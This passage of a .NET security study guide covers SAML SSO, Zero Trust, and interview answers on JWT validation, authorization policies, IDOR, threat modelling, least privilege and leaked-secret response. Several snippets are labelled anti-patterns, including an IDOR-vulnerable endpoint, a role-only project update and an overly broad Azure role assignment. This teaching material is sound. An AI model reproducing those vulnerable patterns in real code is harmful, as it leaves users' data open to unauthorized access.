| Enterprise SSO | Dominant | Growing |

```mermaid
sequenceDiagram
    participant U as User (Browser)
    participant SP as Service Provider\n(your app)
    participant IDP as Identity Provider\n(Okta / Azure AD)

    U->>SP: Access app.company.com/dashboard
    SP->>SP: No session — user not authenticated
    SP-->>U: 302 Redirect to IdP\n(SAML AuthnRequest)

    U->>IDP: SAML AuthnRequest + SP info
    IDP->>U: Login page (if no IdP session)
    U->>IDP: Enter corporate credentials

    IDP->>IDP: Authenticate user\nGenerate signed SAML assertion:\n{ sub, email, groups, exp }

    IDP-->>U: HTTP POST to SP assertion consumer URL\nwith signed SAML Response

    U->>SP: POST /saml/acs (SAML Response)
    SP->>SP: Verify XML signature with IdP's public cert\nExtract claims from assertion
    SP->>SP: Create local session
    SP-->>U: 302 Redirect to /dashboard\n(session cookie set)

    U->>SP: Access app.company.com/other-app
    SP->>SP: No local session
    SP-->>U: 302 Redirect to IdP
    IDP->>IDP: IdP session already exists (SSO)
    IDP-->>U: Immediate SAML assertion (no login screen)
    U->>SP: POST SAML Response → access granted (SSO!)
```

---

## Q12. What is the Zero Trust security model and how is it implemented?

> 📚 Reference: https://www.nist.gov/publications/zero-trust-architecture · https://learn.microsoft.com/en-us/azure/security/fundamentals/zero-trust

Traditional security assumed anything inside the corporate network was trusted. Zero Trust rejects this assumption entirely.

**Core principles:**

| Principle | Meaning |
|----------|---------|
| Verify explicitly | Authenticate and authorize every request based on all available data points (identity, location, device, service, workload) |
| Least privilege access | Limit user and service access with just-in-time and just-enough-access; limit lateral movement |
| Assume breach | Minimize blast radius. Segment access, encrypt all traffic, use analytics to detect and respond to anomalies |

**Technical implementation:**

```mermaid
flowchart TD
    REQ[Every Request\n(internal or external)] --> ID[Verify Identity\nmTLS cert / JWT / OIDC token]
    ID --> DEVICE[Check Device Posture\ncompliant? patched? enrolled?]
    DEVICE --> POLICY[Enforce Least Privilege\nOPA / RBAC — only what this identity needs]
    POLICY --> SEGMENT[Network Micro-segmentation\nservice can only reach declared dependencies]
    SEGMENT --> LOG[Log & Monitor Everything\nSIEM, anomaly detection, audit trail]
    LOG --> ALLOW[✅ Allow request]

    ID -- unverified --> DENY[❌ Deny — 401]
    DEVICE -- non-compliant --> DENY2[❌ Deny — 403]
    POLICY -- unauthorized --> DENY3[❌ Deny — 403]

    style ALLOW fill:#4CAF50,color:#fff
    style DENY fill:#f44336,color:#fff
    style DENY2 fill:#f44336,color:#fff
    style DENY3 fill:#f44336,color:#fff
```

**Implementation checklist in a .NET microservices architecture:**

```csharp
// 1. mTLS between all services (via Istio or manual cert validation)
//    No service accepts a plain HTTP call from another service

// 2. Short-lived tokens — access tokens max 15 min
options.TokenValidationParameters.ClockSkew = TimeSpan.Zero; // no tolerance

// 3. Scoped service identities — each service has its own client_credentials token
//    Service A cannot call Service C unless its token includes scope "serviceC:read"

// 4. Structured logging on every auth decision
_logger.LogInformation(
    "AuthZ decision: {Decision} for {User} on {Resource} — policy={Policy}",
    result.Succeeded ? "ALLOW" : "DENY", user.Identity?.Name, resource, policyName);

// 5. Secrets rotation — short-lived credentials via managed identity, never static
// DefaultAzureCredential with Managed Identity → no passwords in config at all
services.AddAzureClients(builder =>
    builder.AddSecretClient(new Uri(keyVaultUri))
           .WithCredential(new DefaultAzureCredential()));
```

---

# 🎯 Senior Engineer Interview Questions — Security (Q64–Q73)

---

### Q64: How does authentication work in your API? Walk me through the flow.

**Answer:**
Clients obtain tokens from an identity provider, send them in the `Authorization` header, and middleware validates token integrity and claims before the request reaches your controller. APIs should trust tokens, not passwords — credentials are the IdP's concern.



```csharp
// Program.cs — JWT bearer setup
builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.Authority = "https://login.microsoftonline.com/{tenantId}/v2.0";
        options.Audience  = "api://my-api";
        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuer           = true,
            ValidateAudience         = true,
            ValidateLifetime         = true,
            ValidateIssuerSigningKey = true,
            ClockSkew                = TimeSpan.FromSeconds(30)
        };
    });

app.UseAuthentication();  // MUST come before UseAuthorization
app.UseAuthorization();
```

> **Why this matters:** Authentication is the first line of defense and the most common place for misconfiguration. A missing audience validation or wrong algorithm whitelist can make your entire API forgeable.

**💡 Production Example:**
In a multi-tenant SaaS API, clients authenticated via OAuth2 with an external IdP. JWTs were validated in middleware and tenant claims extracted per request. Token audience validation was added after discovering a misconfiguration that allowed tokens issued for a different app registration to access the API. One `ValidateAudience = true` line stopped cross-app token reuse.

---

### Q65: What's the difference between a 401 and a 403?

**Answer:**
`401 Unauthorized` means authentication is missing or invalid — the API does not know who you are. `403 Forbidden` means you are authenticated but not permitted to perform the action — the API knows who you are and says no. Correct semantics improve client retry logic and debugging clarity.

| Code | Meaning | When to use |
|------|---------|-------------|
| 401 | Missing or invalid token | No `Authorization` header, expired JWT, bad signature |
| 403 | Authenticated but not permitted | Valid token, wrong role, policy failure |

```csharp
// ASP.NET Core sets these automatically based on:
// 401 — no valid authentication (UseAuthentication fails)
[Authorize]  // returns 401 if no token

// 403 — authenticated but [Authorize(Roles = "Admin")] fails
[Authorize(Roles = "Admin")]  // returns 403 if token valid but role missing

// Custom middleware — be explicit
if (!context.User.Identity?.IsAuthenticated ?? true)
{
    context.Response.StatusCode = 401;  // ← not 403
    return;
}
if (!context.User.IsInRole("Admin"))
{
    context.Response.StatusCode = 403;  // ← not 401
    return;
}
```

> **Why this matters:** Returning 403 for unauthenticated requests breaks client retry logic. SDKs and browsers typically trigger re-login flows only on 401. Returning the wrong code causes confusing user experiences that are hard to trace.

**💡 Production Example:**
A mobile app was showing "Access Denied" for unauthenticated users because the API returned 403 instead of 401. The app's retry logic only triggered re-login on 401 — so unauthenticated users got stuck instead of being redirected to login. Fixing the status code in the middleware resolved the UX bug without any app-side changes.

---

### Q66: How do you implement role-based and policy-based authorization?

**Answer:**
Roles cover broad access groups (Admin, Manager, Viewer). Policies encode contextual business rules that roles alone cannot express. Use policies for nuanced control because real authorization is rarely role-only — you often need to combine role, resource ownership, environment, and other attributes.

```csharp
// Simple role check
[Authorize(Roles = "Admin,Manager")]
public IActionResult GetReports() { ... }

// Policy — combines role + claim + custom assertion
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("ApproveHighValueOrders", policy =>
        policy.RequireRole("Manager", "Admin")
              .RequireClaim("department", "finance")
              .RequireAssertion(ctx =>
              {
                  var limit = ctx.User.FindFirstValue("approval_limit");
                  return limit != null && decimal.Parse(limit) >= 50_000;
              }));
});

// Resource-based authorization — check ownership at the resource level
public class DocumentAuthorizationHandler
    : AuthorizationHandler<ReadDocumentRequirement, Document>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext ctx,
        ReadDocumentRequirement req,
        Document document)
    {
        var userId = ctx.User.FindFirstValue("sub");
        // Check role OR explicit access grant on the resource
        if (ctx.User.IsInRole("Admin") || document.AuthorizedUserIds.Contains(userId!))
            ctx.Succeed(req);
        return Task.CompletedTask;
    }
}
```

> **Why this matters:** Roles alone are insufficient for real-world authorization. Contextual policies prevent horizontal privilege escalation — where a user with the right role accesses a resource that belongs to a different user.

**💡 Production Example:**
In a healthcare platform, roles controlled broad access (Doctor/Admin/Patient), but viewing a specific patient's records required a policy checking the doctor-patient relationship stored in the database. Even valid Doctor role tokens were denied by the policy handler if no explicit doctor-patient assignment existed. This prevented one doctor from viewing another's patients even within the same role.

---

### Q67: How do you protect an API against common attacks?

**Answer:**
Layer defenses — no single control is sufficient. Core layers: input validation, rate limiting, secure headers, dependency patching, and robust authentication/authorization. Use CORS correctly for browser cross-origin policy but do not treat CORS as a server-side security boundary (it is browser-enforced only).

```csharp
// 1. Rate limiting (ASP.NET Core 7+ built-in)
builder.Services.AddRateLimiter(options =>
{
    options.AddFixedWindowLimiter("login", o =>
    {
        o.PermitLimit    = 5;
        o.Window         = TimeSpan.FromMinutes(1);
        o.QueueLimit     = 0;
        o.RejectionStatusCode = 429;
    });
});

// 2. Input validation — reject malformed payloads early
[HttpPost("login")]
[EnableRateLimiting("login")]
public IActionResult Login([FromBody] LoginRequest req)
{
    if (!ModelState.IsValid) return BadRequest(ModelState);  // reject before any DB call
    // ...
}

// 3. Security headers on every response
app.Use(async (ctx, next) =>
{
    ctx.Response.Headers["X-Content-Type-Options"] = "nosniff";
    ctx.Response.Headers["X-Frame-Options"]        = "DENY";
    ctx.Response.Headers["Referrer-Policy"]        = "strict-origin-when-cross-origin";
    ctx.Response.Headers["Content-Security-Policy"]= "default-src 'self'";
    await next();
});

// 4. CORS — allow only known origins, never wildcard for authenticated endpoints
builder.Services.AddCors(options =>
    options.AddPolicy("Api", policy => policy
        .WithOrigins("https://myapp.com", "https://staging.myapp.com")
        .AllowAnyMethod()
        .AllowAnyHeader()));
// ❌ Never: .AllowAnyOrigin().AllowCredentials() — CORS spec blocks this, and it's a security hole
```

> **Why this matters:** APIs are attacked constantly and a single missing defense is enough for a breach. Layered controls ensure that even if one layer is bypassed, others limit the impact.

**💡 Production Example:**
A public-facing API was hit by a credential-stuffing attack on the login endpoint. Response: layered rate limiting per IP, input validation to reject malformed payloads before they reached the database, strict CORS to limit browser-originating requests, and patching a dependency with a known deserialization vulnerability discovered during the incident review. Each layer addressed a different attack vector simultaneously.

---

### Q68: How do you defend against IDOR (Insecure Direct Object Reference) in REST APIs?

**Answer:**
Never trust resource identifiers alone — always enforce per-resource authorization checks tied to the caller's identity. IDOR prevention is access control discipline, not obscurity. Switching to GUIDs makes IDs harder to guess but is not a substitute for ownership checks.

```csharp
// ❌ IDOR vulnerable — any authenticated user can access any document
[HttpGet("documents/{id}")]
[Authorize]
public async Task<IActionResult> GetDocument(Guid id)
{
    var doc = await _db.Documents.FindAsync(id); // no ownership check!
    return doc is null ? NotFound() : Ok(doc);
}

// ✅ IDOR safe — scope query to caller's identity
[HttpGet("documents/{id}")]
[Authorize]
public async Task<IActionResult> GetDocument(Guid id)
{
    var userId = User.FindFirstValue("sub")!;
    var doc = await _db.Documents
        .FirstOrDefaultAsync(d => d.Id == id && d.AuthorizedUserIds.Contains(userId));
    return doc is null ? NotFound() : Ok(doc); // 404 not 403 — don't reveal existence
}

// ✅ Resource-based policy — centralized ownership check
[HttpDelete("documents/{id}")]
[Authorize]
public async Task<IActionResult> DeleteDocument(Guid id)
{
    var doc = await _db.Documents.FindAsync(id);
    if (doc is null) return NotFound();

    var authResult = await _authService.AuthorizeAsync(User, doc, "DocumentOwner");
    if (!authResult.Succeeded) return Forbid();

    _db.Documents.Remove(doc);
    await _db.SaveChangesAsync();
    return NoContent();
}
```

> **Why this matters:** IDOR vulnerabilities consistently rank in the OWASP Top 10 and are frequently missed in code review because the code "looks correct" — the query works, the response is 200 — but the wrong user can access the wrong data.

**💡 Production Example:**
In a document sharing API, users could access any document by guessing sequential integer IDs. An authorization filter was added that verified the requesting user had explicit access to each document before returning it. The IDs were also migrated to GUIDs to reduce enumeration risk — but the access check was the actual fix. The GUID change alone would have been security theatre.

---

### Q69: Walk me through threat modeling for a new customer-facing API.

**Answer:**
Map assets, trust boundaries, attack paths, and abuse cases — then prioritize mitigations by impact and likelihood. STRIDE is a useful framework: Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege.



**Example — patient portal API threat model summary:**

| Threat | STRIDE category | Mitigation |
|--------|----------------|-----------|
| Attacker spoofs another patient | Spoofing | mTLS + JWT audience validation |
| PDF export reads arbitrary files | Tampering / Info Disclosure | Input validation + sandboxed service |
| Bulk data export floods DB | Denial of Service | Rate limiting + pagination enforcement |
| Doctor accesses wrong patient | Elevation of Privilege | Policy-based resource authorization |

> **Why this matters:** Most security flaws are architectural, not just code bugs. Threat modeling before building is cheaper than finding vulnerabilities in production. A missing control in the design costs 10x more to fix post-launch.

**💡 Production Example:**
For a patient portal API, mapping trust boundaries revealed that the PDF export service had direct database access with no input validation on the document path parameter — a classic path traversal vulnerability. This was remediated before launch by sandboxing the export service, restricting its DB permissions to read-only on the reports table only, and adding strict input validation on document references.

---

### Q70: How do you implement least privilege in a microservice environment?

**Answer:**
Each service gets only the permissions it actually needs — no more. Use scoped OAuth2 tokens with explicit audience claims, managed identities for infrastructure access, and deny-by-default network policies. Audit access grants regularly and remove unused permissions.

```csharp
// Service A requests a token scoped ONLY to Service B
// Not a generic token valid for every internal service
var tokenRequest = new ClientCredentialsTokenRequest
{
    Address      = "https://idp.internal/connect/token",
    ClientId     = "service-a",
    ClientSecret = _config["ServiceA:Secret"], // better: managed identity
    Scope        = "service-b:orders:read"     // explicit, narrow scope
};

// Service B validates the audience AND scope
options.TokenValidationParameters = new TokenValidationParameters
{
    ValidAudience = "service-b",   // reject tokens issued for other services
    ValidateAudience = true
};

// For Azure: managed identity — no secrets at all
var credential = new DefaultAzureCredential();
var token = await credential.GetTokenAsync(
    new TokenRequestContext(["https://servicebus.azure.net/.default"]));
// Service only gets access to Service Bus — not Storage, not SQL, etc.
```

**Infrastructure least privilege (Azure RBAC example):**

```bash
# ❌ Overly broad — production app as Contributor on entire subscription
az role assignment create --role "Contributor" --scope /subscriptions/{sub-id}

# ✅ Narrow — app only reads from one specific storage account
az role assignment create \
  --role "Storage Blob Data Reader" \
  --scope /subscriptions/{sub}/resourceGroups/{rg}/providers/Microsoft.Storage/storageAccounts/{account}
```

> **Why this matters:** Least privilege limits blast radius when a service is compromised. An attacker who gains code execution on Service A should not automatically be able to access Service C's database or write to Service B's queue.

**💡 Production Example:**
When decomposing a monolith into microservices, internal HTTP calls initially used a single shared API key valid across all services. After migrating to managed identities with explicit audience claims per service, an audit revealed that the reporting service had been accessing the payment service API — an access path it had no legitimate reason to use. Scoping tokens to specific audiences removed that unintended access path.

---

### Q71: How do you handle authorization for resource ownership, not just user roles?

**Answer:**
Enforce ownership checks at application boundaries through resource-based authorization policies that include resource context. Role checks alone over-authorize because a role permits the action type but says nothing about which specific resource the user may act on.

```csharp
// ❌ Role check only — any project manager can edit ANY project
[Authorize(Roles = "ProjectManager")]
[HttpPut("projects/{id}")]
public async Task<IActionResult> UpdateProject(Guid id, UpdateProjectDto dto)
{
    var project = await _db.Projects.FindAsync(id);
    // missing: does this PM own/belong to this project?
    _mapper.Map(dto, project);
    await _db.SaveChangesAsync();
    return Ok(project);
}

// ✅ Ownership policy — role + resource membership
public class ProjectMembershipHandler
    : AuthorizationHandler<EditProjectRequirement, Project>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext ctx,
        EditProjectRequirement req,
        Project project)
    {
        var userId = ctx.User.FindFirstValue("sub")!;

        var isAdmin = ctx.User.IsInRole("Admin");
        var isMember = project.Members.Any(m => m.UserId == userId
                                                && m.Role is "Owner" or "Manager");
        if (isAdmin || isMember)
            ctx.Succeed(req);

        return Task.CompletedTask;
    }
}

// Controller — clean, policy handles ownership
[HttpPut("projects/{id}")]
public async Task<IActionResult> UpdateProject(Guid id, UpdateProjectDto dto)
{
    var project = await _db.Projects.Include(p => p.Members).FirstAsync(p => p.Id == id);
    var auth = await _authService.AuthorizeAsync(User, project, "EditProject");
    if (!auth.Succeeded) return Forbid();

    _mapper.Map(dto, project);
    await _db.SaveChangesAsync();
    return Ok(project);
}
```

> **Why this matters:** Role checks without resource ownership checks are a systemic gap. Horizontal privilege escalation (a user accessing another user's data within the same role) is often more damaging than vertical escalation (a user elevating to a higher role).

**💡 Production Example:**
In a project management tool, the API checked `role == 'ProjectManager'` but did not verify the user owned or was a member of that specific project. Any project manager could edit any project in the system. A resource-based authorization policy checking project membership fixed it — and the fix surfaced in the first security review once ownership checks were mandatory by convention.

---

### Q72: What is your incident response process when a secret is accidentally committed?

**Answer:**
Revoke immediately, rotate affected credentials, assess blast radius, and document timeline and corrective actions. Speed and completeness matter more than blame. Treat the secret as fully compromised from the moment of the commit — even if the repo was private.



```bash
# Step 1 — Revoke the credential immediately (before anything else)
# Azure: rotate the connection string / key in portal or CLI
az keyvault secret set --vault-name myVault --name db-conn --value "NEW_CONN_STRING"

# Step 4 — Remove from git history (AFTER rotating — history removal alone is insufficient)
# Using BFG Repo-Cleaner
java -jar bfg.jar --replace-text secrets.txt my-repo.git
git push --force

# Step 5 — Pre-commit hook to prevent recurrence
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
```

> **Why this matters:** How quickly and completely you respond to a secret exposure determines whether it becomes a minor incident or a major breach. Deleting the commit is not enough — git history is cached by GitHub, bots scan public repos within seconds of a push, and private repos may have been cloned.

**💡 Production Example:**
A developer committed an Azure SQL connection string to a public GitHub repo. Within 30 minutes: the credential was rotated, access logs were audited for unauthorized queries (none found in the 12-minute exposure window), Key Vault references were enabled on the app to eliminate all inline secrets, and a `gitleaks` pre-commit hook was added to the repo. The postmortem added secret scanning to the CI pipeline as a required check on every PR.

---

### Q73: How do you secure internal service-to-service calls?

**Answer:**
Use strong service identity, short-lived credentials, and explicit audience restrictions. Internal networks are not trusted by default in a zero-trust model. In Azure, managed identities provide secretless authentication — the platform handles credential lifecycle with no secrets in config.

```csharp
// ❌ Shared API key — no per-service identity, can't audit, can't revoke per-service
services.AddHttpClient("PaymentService", client =>
    client.DefaultRequestHeaders.Add("X-API-Key", _config["SharedApiKey"]));

// ✅ Option 1: OAuth2 Client Credentials — per-service token with audience restriction
services.AddHttpClient("PaymentService")
    .AddClientCredentialsTokenHandler("payment-service"); // token scoped to "payment-service" audience only

// ✅ Option 2: Azure Managed Identity — no secrets at all
services.AddHttpClient("OrderService", client =>
    client.BaseAddress = new Uri("https://order-service.internal"));

// In the handler — fetch a managed identity token for the specific resource
var credential = new DefaultAzureCredential();
var tokenResult = await credential.GetTokenAsync(
    new TokenRequestContext(["https://order-service.internal/.default"]));
request.Headers.Authorization = new AuthenticationHeaderValue("Bearer", tokenResult.Token);

// ✅ Option 3: mTLS — certificate proves service identity at TLS layer
var handler = new HttpClientHandler();
handler.ClientCertificates.Add(_certStore.GetServiceCert("inventory-service"));
// Server validates client cert's CN matches expected service name
```

```mermaid
flowchart LR
    A[Service A] -->|"OAuth2 token\naud=service-b\nexp=15min"| B[Service B]
    A -->|"Managed Identity\nno secrets in config"| AZURE[(Azure Resource)]
    A -->|"mTLS\nclient cert CN=service-a"| C[Service C]

    B -->|validates aud=service-b| OK1[✅ Accepted]
    B -->|rejects aud=service-c token| DENY1[❌ Rejected]
```

> **Why this matters:** Internal traffic is not inherently trusted. Service-to-service authentication prevents lateral movement — if Service A is compromised, it should not be able to impersonate Service A's identity to reach Service C, which Service A has no legitimate need to call.

**💡 Production Example:**
When decomposing a monolith, internal HTTP calls initially used shared API keys. After migrating to managed identity with explicit audience claims per service, an audit showed one service had previously had access to all internal APIs. After scoping, it was limited to the two services it actually called. When that service later had a vulnerability discovered in a dependency, the blast radius was contained to those two downstream services instead of the entire internal API surface.
